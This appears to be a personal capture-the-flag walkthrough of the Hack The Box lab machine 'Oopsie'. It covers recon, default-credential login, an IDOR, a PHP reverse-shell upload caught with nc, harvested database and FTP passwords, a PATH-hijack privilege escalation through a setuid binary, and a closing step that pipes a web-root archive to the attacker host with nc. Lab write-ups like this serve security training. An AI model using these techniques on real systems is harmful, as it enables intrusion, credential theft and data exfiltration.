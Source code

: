 inet 10.10.14.69  netmask 255.255.254.0
inet6 fe80::d484:44d2:fd97:c02c

# Oopsie

## nmap

sudo nmap -sC -sV -A 10.10.10.28

Nmap scan report for 10.10.10.28
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE    SERVICE       VERSION
22/tcp   open     ssh           OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 61:e4:3f:d4:1e:e2:b2:f1:0d:3c:ed:36:28:36:67:c7 (RSA)
|   256 24:1d:a4:17:d4:e3:2a:9c:90:5c:30:58:8f:60:77:8d (ECDSA)
|_  256 78:03:0e:b4:a1:af:e5:c2:f9:8d:29:05:3e:29:c9:f2 (ED25519)
80/tcp   open     http          Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Welcome
3268/tcp filtered globalcatLDAP
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

gobuster dir -x "php, css, js, html, txt, xml, json" -u "http://10.10.10.28" -w "/usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt"

find index.php, uploads/ to infer some certain files may onload

nikto finds cdn-cgi/login as a CGI directory

username: admin
password: MEGACORP_4dm1n!!

http://10.10.10.28/cdn-cgi/login/admin.php?content=accounts&id="X"
find accounts
Account ID: 86575
Name: super admin
Email: superadmin@megacorp.com

upload [reverse shell php](https://github.com/pentestmonkey/php-reverse-shell) to server within super admin

use nc -lvnp port to listen reverse shell file to connect
as http://10.10.10.28/uploads/revshell.php

whoami www-data
uid=33(www-data) gid=33(www-data) groups=33(www-data)

user.txt
f2c74ee8db7983851ab2a96a44eb7981

get a better (interactive) bash use
> /usr/bin/script -qc /bin/bash /dev/null

## script help
-a, --append                  append the output
-c, --command <command>       run command rather than interactive shell
-e, --return                  return exit code of the child process
-f, --flush                   run flush after each write
    --force                   use output file even when it is a link
-q, --quiet                   be quiet
-t[<file>], --timing[=<file>] output timing data to stderr or to FILE
-h, --help                    display this help
-V, --version                 display version

www-data@oopsie:/var/www/html/cdn-cgi/login$ cat db.php
<?php
$conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
?>

username: robert
password: M3g4C0rpUs3r!

because ssh port 22 has open
ssh robert@10.10.10.28

command input "id"
uid=1000(robert) gid=1000(robert) groups=1000(robert),1001(bugtracker)
=> group contains "bugtracker"

robert@oopsie:/usr/bin$ find / -type f -group bugtracker 2> /dev/null
(2> dev/null mean discard unnecessary data message)
=> /usr/bin/bugtracker

file bugtracker
bugtracker: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, for GNU/Linux 3.2.0, BuildID[sha1]=b87543421344c400a95cbbe34bbc885698b52b8d, not stripped

strings bugtracker
------------------
: EV Bug Tracker :
------------------
Provide Bug ID: 
---------------
cat /root/reports/
;*3$"

echo /bin/bash -P > cat in ~/tmp (echo /bin/sh > cat)
chmod +x cat (switch to local tmp file 'cat')
export PATH=/home/robert/tmp:$PATH
exec bugtracker

any root privilege read file's bin root.txt
root.txt
af13b0bee69f8a877c3faf667f7beacf

## report contents
1.
Binary package hint: ev-engine-lib
Version: 3.3.3-1
Reproduce:
When loading library in firmware it seems to be crashed
What you expected to happen:
Synchronized browsing to be enabled since it is enabled for that site.
What happened instead:
Synchronized browsing is disabled. Even choosing VIEW > SYNCHRONIZED BROWSING from menu does not stay enabled between connects.

2.
If you connect to a site filezilla will remember the host, the username and the password (optional). The same is true for the site manager. But if a port other than 21 is used the port is saved in .config/filezilla - but the information from this file isn't downloaded again afterwards.
ProblemType: Bug
DistroRelease: Ubuntu 16.10
Package: filezilla 3.15.0.2-1ubuntu1
Uname: Linux 4.5.0-040500rc7-generic x86_64
ApportVersion: 2.20.1-0ubuntu3
Architecture: amd64
CurrentDesktop: Unity
Date: Sat May 7 16:58:57 2016
EcryptfsInUse: Yes
SourcePackage: filezilla
UpgradeStatus: No upgrade log present (probably fresh install)

3.
Hello,
When transferring files from an FTP server (TLS or not) to an SMB share, Filezilla keeps freezing which leads down to very much slower transfers ...
Looking at resources usage, the gvfs-smb process works hard (60% cpu usage on my I7)
I don't have such an issue or any slowdown when using other apps over the same SMB shares.
ProblemType: Bug
DistroRelease: Ubuntu 12.04
Package: filezilla 3.5.3-1ubuntu2
ProcVersionSignature: Ubuntu 3.2.0-25.40-generic 3.2.18
Uname: Linux 3.2.0-25-generic x86_64
NonfreeKernelModules: nvidia
ApportVersion: 2.0.1-0ubuntu8
Architecture: amd64
Date: Sun Jul 1 19:06:31 2012
EcryptfsInUse: Yes
InstallationMedia: Ubuntu 12.04 LTS "Precise Pangolin" - Alpha amd64 (20120316)
ProcEnviron:
 TERM=xterm
 PATH=(custom, user)
 LANG=fr_FR.UTF-8
 SHELL=/bin/bash
SourcePackage: filezilla
UpgradeStatus: No upgrade log present (probably fresh install)
ApportVersion: 2.13.3-0ubuntu1
Architecture: amd64
DistroRelease: Ubuntu 14.04
EcryptfsInUse: Yes
InstallationDate: Installed on 2013-02-23 (395 days ago)
InstallationMedia: Ubuntu 12.10 "Quantal Quetzal" - Release amd64 (20121017.5)
Package: gvfs
PackageArchitecture: amd64
ProcEnviron:
 LANGUAGE=fr_FR
 TERM=xterm
 PATH=(custom, no user)
 LANG=fr_FR.UTF-8
 SHELL=/bin/bash
ProcVersionSignature: Ubuntu 3.13.0-19.40-generic 3.13.6
Tags: trusty
Uname: Linux 3.13.0-19-generic x86_64
UpgradeStatus: Upgraded to trusty on 2014-03-25 (0 days ago)
UserGroups:

.config/filezilla/filezilla.xml
<?xml version="1.0" encoding="UTF-8" standalone="yes" ?>
<FileZilla3>
    <RecentServers>
        <Server>
            <Host>10.10.10.46</Host>
            <Port>21</Port>
            <Protocol>0</Protocol>
            <Type>0</Type>
            <User>ftpuser</User>
            <Pass>mc@F1l3ZilL4</Pass>
            <Logontype>1</Logontype>
            <TimezoneOffset>0</TimezoneOffset>
            <PasvMode>MODE_DEFAULT</PasvMode>
            <MaximumMultipleConnections>0</MaximumMultipleConnections>
            <EncodingType>Auto</EncodingType>
            <BypassProxy>0</BypassProxy>
        </Server>
    </RecentServers>
</FileZilla3>

## Get the /var/www/html files

- in /var/www wrap html first
tar -czf html.tar.gz html

**server**
> cat html.tar.gz | nc 10.10.14.69 *any port*

**client**
> nc -l -p *any port* -q 1 > html.tar.gz < /dev/null
